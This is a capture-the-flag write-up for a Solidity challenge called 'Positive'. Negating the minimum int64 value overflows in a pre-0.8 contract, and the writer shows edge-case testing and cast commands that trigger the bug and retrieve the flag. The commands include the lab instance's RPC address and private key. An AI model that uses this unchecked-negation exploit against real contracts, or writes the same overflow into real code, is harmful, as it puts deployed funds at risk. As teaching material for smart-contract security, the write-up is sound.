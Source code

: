 # Positive

## Challenge

The challenge is deployed using the ParadigmCTF framework.

We get a contract for Positive.sol:

```solidity=
// SPDX-License-Identifier: MIT
pragma solidity =0.7.6;

contract Positive{
    bool public solved;

    constructor() {
        solved = false;
    }

    function stayPositive(int64 _num) public returns(int64){
        int64 num;
        if(_num<0){
            num = -_num;
            if(num<0){
                solved = true;
            }
            return num;
        }
        num = _num;
        return num;
    }
}
```

Our goal is to get the solved variable to be true.

## Solution
For this challenge, my first approach was to test some edge cases by throwing in numbers like 1, 0, -1, int64_max, int64_min while I test-deployed the challenge in Remix. This already yielded me the wanted result, as int64_min (-9223372036854775808) passed both checks and set the variable solved to true.

I then used cast with the following commands to set solved to true:

```bash
# uuid:           eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2
# rpc endpoint:   http://146.148.125.86:60083/eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2
# private key:    0x5e9dee143c11059ebdcc65e4e949159b4f1cbb49833a0b1895aaee78a68fb3c3
# setup contract: 0x516eD898e69427192d148a45893C8328ed33E5ca

rpc="http://146.148.125.86:60083/eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2"
priv_key=0x5e9dee143c11059ebdcc65e4e949159b4f1cbb49833a0b1895aaee78a68fb3c3
setup_contract=0x516eD898e69427192d148a45893C8328ed33E5ca

# get address
cast call $setup_contract "TARGET()(address)" --rpc-url $rpc

# Save the address we received.
positive_contract=0xE07e3fA0EB898531Cc1EC5b0dcDF86932cCD865a

# Call to the function (will prompt to input the private key)
cast send --rpc-url $rpc --private-key $priv_key $positive_contract "stayPositive(int64 _num)" -- -9223372036854775808 

# Check if it was solved
cast call $setup_contract "isSolved()(bool)" --rpc-url $rpc
```

This yields us the flag crew{9o5it1v1ty1sth3k3y}.